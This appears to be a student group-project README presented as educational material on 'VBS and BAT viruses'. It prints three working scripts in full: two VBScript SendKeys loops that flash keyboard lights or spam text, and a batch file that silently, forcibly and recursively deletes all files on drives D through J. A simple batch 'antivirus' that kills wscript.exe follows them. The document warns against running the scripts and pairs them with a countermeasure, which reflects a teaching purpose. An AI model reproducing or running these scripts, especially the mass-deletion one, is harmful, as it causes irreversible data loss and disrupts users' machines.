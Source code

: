 # VBS and BAT Viruses - Group Work

This document is made as an educational material about potentially harmful scripts and how to protect against them. **DO NOT EXECUTE ANY OF THESE SCRIPTS** because they can damage your system.

### 1. Keyboard Lights Flasher (key.vbs)
```vbs
Set wshShell =wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "{CAPSLOCK}"
wscript.sleep 100
wshshell.sendkeys "{NUMLOCK}"
wscript.sleep 100
wshshell.sendkeys "{SCROLLLOCK}"
loop
```
**Effect:** This script keeps switching the Caps Lock, Num Lock, and Scroll Lock keys on and off, which makes the keyboard lights flash non-stop. It won’t damage your data, but it can definitely get annoying.

### 2. Formatter (form.bat)
```bat
@echo off
del D:\*.* /f /s /q
del E:\*.* /f /s /q
del F:\*.* /f /s /q
del G:\*.* /f /s /q
del H:\*.* /f /s /q
del I:\*.* /f /s /q
del J:\*.* /f /s /q
```
**Effect:** This script is really risky because it tries to delete every file on drives D upto J. The deletion goes like this:
- Silent (`/q` parameter)
- Forced (`/f` parameter) 
- Recursive through all subdirectories (`/s` parameter)

**WARNING:** Running this script can lead to permanent data loss. Once you delete the files, it's tough to get them back without special recovery tools, and even they might not bring everything back. It's like a one time hit and run that can do serious damage right away.

### 3. Text Spammer (txtspm.bat)
```vbs
Set wshShell = wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "This is a harmless virus"
loop
```
**Effect:** This script types out "This is a harmless" virus wherever your cursor is. It can mess with your work by making it tough to type normally and could lead to some accidental things happening if it gets typed into command prompts or other apps.

## Antivirus Solution (ant.bat)

Here’s a script that can help stop harmful VBS scripts like the keyboard flasher and text spammer:

```bat
@echo off
echo Script Terminator - Emergency System Protection
echo =============================================
echo.
echo Scanning for malicious processes...
tasklist | findstr "wscript.exe" > nul
if %ERRORLEVEL% EQU 0 (
    echo ALERT: Found wscript.exe running!
    echo Terminating all wscript processes...
    taskkill /f /im wscript.exe
    echo Process terminated successfully.
) else (
    echo No malicious wscript processes found.
)
echo.
echo Checking system integrity...
echo.
echo NOTE: If files were deleted by the formatter script,
echo immediate actions are required:
echo 1. Disconnect the affected drives
echo 2. Do not write any new data to them
echo 3. Use professional data recovery services or software like recuva
echo   because deleted files are NOT recoverable through standard ways
echo.
echo While this script can stop active malicious scripts,
echo it CANNOT recover files deleted by the formatter script.
echo That damage is irreversible without professional recovery tools.
echo.
pause
```

You can find other batch script and powershell based scripts at [OSSPG4](https://osspg4.vercel.app/#virus-production-and-protection)
